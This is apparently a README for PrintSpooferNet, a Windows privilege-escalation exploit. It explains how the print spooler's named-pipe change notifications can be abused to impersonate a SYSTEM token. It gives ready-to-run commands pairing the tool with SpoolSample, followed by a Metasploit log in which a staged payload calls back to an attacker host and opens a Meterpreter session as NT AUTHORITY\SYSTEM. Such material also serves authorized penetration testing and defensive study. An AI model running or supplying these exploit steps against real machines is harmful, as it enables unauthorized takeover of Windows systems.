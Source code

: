 # PrintSpooferNet

## How does it work?

Communication to the spooler service is done through Print System Remote Protocol (MS-RPRN). MS-RPRN works through named pipes and the pipe name used by the print spooler service is \pipe\spoolss. Vulnerabilities exist in RpcOpenPrinter and RpcRemoteFindFirstPrinterChangeNotification functions. Specifically, RpcOpenPrinter allows the retrieval of a handle for the printer server, which is used as an argument to the second API - RpcRemoteFindFirstPrinterChangeNotification which monitors printer object changes and sends change notifications to print clients. This change notification requires the print spooler to access the print client. 

We can force the SYSTEM account to connect to a named pipe set up by us. The attack is based on the print spooler service, which runs in a SYSTEM context. The attack is based on the fact that the print spooler monitors printer object changes and sends change notifications to print clients by connecting to their respective named pipes. If we can create a process running with the SeImpersonatePrivilege privilege that simulates a print client (our named pipe server), we will obtain a SYSTEM token that we can impersonate.

## Exploit

In order to exploit, the account executing as needs to have SeImpersonatePrivilege.

Example:

```
# Create a pipe server named test and specify the command to execute
.\PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss "<COMMAND>"
# Use SpoolSample to target the pipe server and its named pipe
.\SpoolSample.exe <TARGET> <TARGET>/pipe/test
```

Example in Metasploit:

```
C:\Windows\Tasks>.\PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss "C:\Windows\Tasks\GiveMeShell.exe"
^Z
Background channel 4? [y/N]  y
meterpreter > shell
Process 1304 created.
Channel 6 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\Tasks>.\SpoolSample.exe web01 web01/pipe/test
.\SpoolSample.exe web01 web01/pipe/test
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function

C:\Windows\Tasks>
[!] https://xxx.xxx.xxx.xxx:443 handling request from xxx.xxx.xxx.xxx; (UUID: qqhdhp6e) Without a database connected that payload UUID tracking will not work!
[*] https://xxx.xxx.xxx.xxx:443 handling request from xxx.xxx.xxx.xxx; (UUID: qqhdhp6e) Staging x64 payload (201820 bytes) ...
[!] https://xxx.xxx.xxx.xxx:443 handling request from xxx.xxx.xxx.xxx; (UUID: qqhdhp6e) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 3 opened (xxx.xxx.xxx.xxx:443 -> xxx.xxx.xxx.xxx:49767) at 2023-11-24 12:10:09 +0000

C:\Windows\Tasks>^Z
Background channel 6? [y/N]  y
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  2         meterpreter x64/windows  IIS APPPOOL\DefaultAppPool @ WEB01  xxx.xxx.xxx.xxx:443 -> xxx.xxx.xxx.xxx:49723 (xxx.xxx.xxx.xxx)
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WEB01         xxx.xxx.xxx.xxx:443 -> xxx.xxx.xxx.xxx:49767 (xxx.xxx.xxx.xxx)
```
